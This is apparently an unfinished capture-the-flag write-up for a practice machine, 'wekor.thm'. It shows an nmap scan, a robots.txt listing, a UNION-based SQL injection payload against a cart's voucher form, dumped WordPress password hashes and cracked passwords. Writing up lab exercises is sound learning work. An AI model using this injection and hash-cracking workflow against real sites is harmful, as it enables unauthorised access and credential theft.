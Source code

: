 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx wekor.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV wekor.thm
```

we got these open ports
```bash

```

# HTTP (port 80)
robots.txt
```
User-agent: *
Disallow: /workshop/
Disallow: /root/
Disallow: /lol/
Disallow: /agent/
Disallow: /feed
Disallow: /crawler
Disallow: /boot
Disallow: /comingreallysoon
Disallow: /interesting
```


http://wekor.thm/it-next/
http://wekor.thm/it-next/it-cart.php

veulnerability in the add voucher form

' UNION SELECT database(),2,3;#
database() = coupons

table valid_coupons


Coupon Code : 1 With ID : admin And With Expire Date Of : $P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B. Is Valid!
Coupon Code : 1 With ID : wp_jeffrey And With Expire Date Of : $P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10 Is Valid!
Coupon Code : 1 With ID : wp_yura And With Expire Date Of : $P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/ Is Valid!
Coupon Code : 1 With ID : wp_eagle And With Expire Date Of : $P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/ Is Valid!

xxxxxx           (wp_eagle)
soccer13         (wp_yura)     
rockyou          (wp_jeffrey)
